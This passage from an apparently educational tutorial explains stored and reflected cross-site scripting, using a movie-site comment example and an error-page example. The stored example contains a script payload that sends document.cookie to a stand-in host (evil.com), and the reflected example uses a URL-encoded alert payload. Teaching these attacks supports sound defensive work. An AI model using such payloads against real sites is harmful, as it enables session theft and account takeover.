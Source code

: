 For example, let's say we have a movie site where you can leave comments. The attacker sends a comment with the following content:

```
Very interesting film about extremely sad fairytale. <script>var img=new Image();img.src='http://evil.com/steal-cookie.php?cookie='+document.cookie;</script>
```

Once the comments have loaded, depending on the browser, the DOM tree will render the script and we'll get this final HTML:

```html
<body>
  <!--Some code--->
  <div id="comments">
    <div class="comment">
      <p>Very interesting film about extremely sad fairytale.</p>
      <script>
        var img = new Image();
        img.src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;
      </script>
    </div>
    <div class="comment">...</div>
  </div>
  <!--Some code--->
</body>
```

Depending on the browser, the `<script>` tag may be inside the `<p>` tag, but this will not prevent the script from executing.

#### Reflected XSS

Let's go by the name, an attack occurs when a malicious script is “reflected” from a web-server in response to an HTTP request. To understand this, let's look at the following scenario:

We have an endpoint `/error` with a query parameter `message` that specifies the error message. Here is an example HTML file of the page:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Error Page</title>
  </head>
  <body>
    <h1>Error Page</h1>
    <p>Your error message: <strong>${message}</strong></p>
  </body>
</html>
```

If an attacker sends a link to a user, with the following payload:
`http://example.com/error?message=%3Cscript%3Ealert('XSS');%3C%2Fscript%3E`, the server will replace the placeholder `${message}` with the value from query, and return an HTML file with the malicious script.
